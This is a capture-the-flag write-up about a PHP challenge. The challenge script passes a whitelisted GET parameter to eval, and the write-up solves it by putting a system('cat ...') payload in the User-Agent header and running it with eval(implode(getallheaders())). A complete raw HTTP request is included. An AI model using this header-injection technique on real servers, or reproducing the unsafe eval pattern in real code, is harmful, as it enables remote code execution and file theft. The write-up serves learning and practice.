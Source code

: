 ### Code: 

```php
<?php

function get_lucky_word() {
    $words = array("Chuc mung nam moi", "gongxifacai", "happy new year!", "bonne année", "Akemashite omedeto gozaimasu", "Seh heh bok mahn ee bahd euh sae yo", "kimochi", "Feliz Año Nuevo", "S novim godom", "Gelukkig Nieuwjaar", "selamat tahun baru", "iniya puthandu nal Vazhthukkal");
    return $words[array_rand($words)];
}

function get_lucky_number() {
    $numb = rand(0,100);
    return strval($numb);
}


if(!isset($_GET["roll"])) {
    show_source(__FILE__);
}
else
{
    $wl = preg_match('/^[a-z\(\)\_\.]+$/i', $_GET["roll"]);

    if($wl === 0 || strlen($_GET["roll"]) > 50) {
        die("bumbadum badum");
    }
    eval("echo ".$_GET["roll"]."();");
}

?>

```

# Explanation: #
In above code only parameter is "roll". If parameter is not passed then source code is shown otherwise parameter is processed.
## Constraints
There are some constraints on roll parameter:-
### 1. Length
Length should be less than 50 characters.
### 2. Allowed Characters
- a-z
- (
-  )
-  _
-  .

## Target
Flag is in same directory in file "fl4g_here_but_can_you_get_it_hohoho.php".
1. We need to list all files in directory
2. We need to read flag file

## Obstacle
Roll parameter is too constrained to be used for exploitation. So we need to find another way to deliver our payload, and then execute using roll parameter.
## Failed Attempt
As same as everyone, I wasted many hours on using system command

We can easily list files using

```?roll=system(ls)```

So our first target of finding file name is completed, But when I tried reading file using

```?roll=readfile(system(ls))```

it only showed content of index.php, Why?

On [PHP System Page](https://www.php.net/manual/en/function.system.php), mentioned
```Function Returns the last line of the command output on success```

So while system(ls) is displaying all files, it only passing last file name to readfile function. And same is true for other similar functions like exec, passthru.

## Exploitation:
So I braked problem in parts and solved like this:-

#### 1. Payload Delivery

Roll parameter was too small for payload, So I used HTTP headers for delivering payload

```User-Agent: eval(system('cat fl4g_here_but_can_you_get_it_hohoho.php'))```

Here, I am reading flag file using cat. cat is called by system function. And system function is string which is parsed as php code by eval.

#### 2. Reading Payload

So our payload is delivered, now we need to read this.

```getallheaders()``` can be used for reading all headers. But this will return a array. But if we use implode function like ```implode(getallheaders())```, then it will create a string of all the VALUES of array as a string. like,

```
192.46.227.32 eval(system('cat fl4g_here_but_can_you_get_it_hohoho.php'));text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8en-US,en;q=0.5gzip, deflate1close11max-age=0

```

So now we have our payload ready. We can execute php code in above string using eval. So final url will be 

```192.46.227.32/?roll=(eval(implode(getallheaders())))```

#### 3. Final step
Our php code in above string also has other stuff and when eval will try to execute it will crash. So we should comment out that. How?
I created two more custom headers, where first when is on top of all header and had starting of php comment /* and last header I included had ending of php comment. And I changed payload to closed opened comment on start and close on end. So final request become like this

```
GET /?roll=(eval(implode(getallheaders()))) HTTP/1.1
xyz: /*test
Host: 192.46.227.32
User-Agent: */ eval(system('cat fl4g_here_but_can_you_get_it_hohoho.php'));/*
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
abc: tses*/
```

